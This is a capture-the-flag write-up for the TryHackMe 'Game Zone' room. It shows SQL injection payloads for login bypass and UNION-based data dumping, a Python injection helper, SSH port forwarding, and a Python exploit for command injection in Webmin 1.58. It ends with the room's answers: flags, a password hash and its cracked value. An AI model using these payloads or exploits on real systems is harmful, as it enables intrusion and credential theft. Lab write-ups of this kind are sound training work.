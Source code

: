 # Game Zone (THM)

- https://tryhackme.com/room/gamezone
- March 22, 2023
- easy

---

## Enumeration

### Nmap

```
PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    syn-ack     Apache httpd 2.4.18 ((Ubuntu))
```
### HTTP

- home page

![](screenshots/2023-03-22-16-30-01.png)

- directory brute forcing with ffuf - nothing special found
- there is a login form in home page
- cannot register
- in login page, enter with some common credentials

```
admin:admin
admin:password
guest:guest
# basic sql injection
' OR 1=1-- -:sdff
```
- sql injection works and redirect to portal.php page
- portal.php has one search functionality and it is also vulnerable to sql injection
- test with `'`

![](screenshots/2023-03-22-16-36-41.png)

- MySQL server
- check how many columns

```
' order by 1-- -
' order by 3-- -
' order by 4-- -
```
- 4 return error and there are 3 columns
- check which columns are reflected

```
' union select 'aaaa','bbbb','cccc'-- -
```
- second and third columns are reflected
- wrote python script like this to see conviently

```python
import requests
import sys
from bs4 import BeautifulSoup

url = "http://10.10.41.206/portal.php"
headers = {"Cookie": "PHPSESSID=k1tk23vhn5qmc42qeh95o8pr83"}
data = {"searchitem": sys.argv[1]}

r = requests.post(url, data=data, headers=headers)
soup = BeautifulSoup(r.text, features="lxml")
for td in soup.find_all('td'):
    print(td.text)
```
- replace your PHPSESSID and url and can execute like this
- `python exploit.py 'injection here'`

- list tables

```sh
 python exploit.py "' union select null,null,table_name from information_schema.tables;-- -"
```
- found users table and check column names

```sh
python exploit.py "' union select null,column_name,data_type from information_schema.columns where table_name='users';-- -" 
```
```
username
text
pwd
text
USER
char
CURRENT_CONNECTIONS
bigint
TOTAL_CONNECTIONS
bigint
```
- there are username and pwd columns

```sh
python exploit.py "' union select null,username,pwd from users;-- -" 
```
- get username and pwd which is hashed

```
agent47
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```
- use crackstation.net and get password

![](screenshots/2023-03-22-17-07-00.png)

- there is ssh service opened and enter with this credentials


## User Access

- enter ssh and get agent47 user access
- cannot run sudo 

```sh
agent47@gamezone:/tmp$ id
uid=1000(agent47) gid=1000(agent47) groups=1000(agent47),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
- user has lxd access
- try `lxd` exploit but not success
- There is an internal service at port 10000
![](screenshots/2023-03-22-17-36-58.png)

- it is a web service

![](screenshots/2023-03-22-17-39-34.png)

- use ssh port tunneling to access from our local browser
- from local machine

```sh
ssh -L 10000:127.0.0.1:10000 agent47@$IP
```
- we can access at `http://localhost:10000`

![](screenshots/2023-03-22-17-40-26.png)

- try to enter with agent47 and can enter

![](screenshots/2023-03-22-17-44-19.png)

- version of webmin is 1.58 and it has remote command execution vulnerability
- wrote a simple python code like this

```python
import requests
import sys
from urllib.parse import quote

headers = {
    # use your cookie here
    "Cookie": "testing=1; sid=24654e7126dc325d706444ce32d77a48"
}
url = "http://localhost:10000/file/show.cgi/bin/lklskjdfsdf|"
# after /bin/ -> can use any random character
cmd = sys.argv[1]

r = requests.get(url + quote(cmd) + "|", headers=headers)
print(r.text)
```

## Root Access

- can execute as root user

![](screenshots/2023-03-22-17-54-09.png)

![](screenshots/2023-03-22-17-54-45.png)

- if you want shell, use with reverse shell payload and netcat

## Questions

1. What is the name of the large cartoon avatar holding a sniper on the forum?

![](screenshots/2023-03-22-17-21-53.png)

2. When you've logged in, what page do you get redirected to?

- portal.php

3. In the users table, what is the hashed password?

- ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

4. What was the username associated with the hashed password?

- agent47

5. What was the other table name?

- post

6. What is the de-hashed password?

- videogamer124

7. What is the user flag?

- 649ac17b1480ac13ef1e4fa579dac95c

8. How many TCP sockets are running?

- 5

![](screenshots/2023-03-22-17-34-33.png)
- this screenshot is wrong as I think I have connected my local machine to get linpeas from remote machine

9. What is the name of the exposed CMS?

- webmin

10. What is the CMS version?

- 1.580

11. What is the root flag?

- a4b945830144bdd71908d12d902adeee
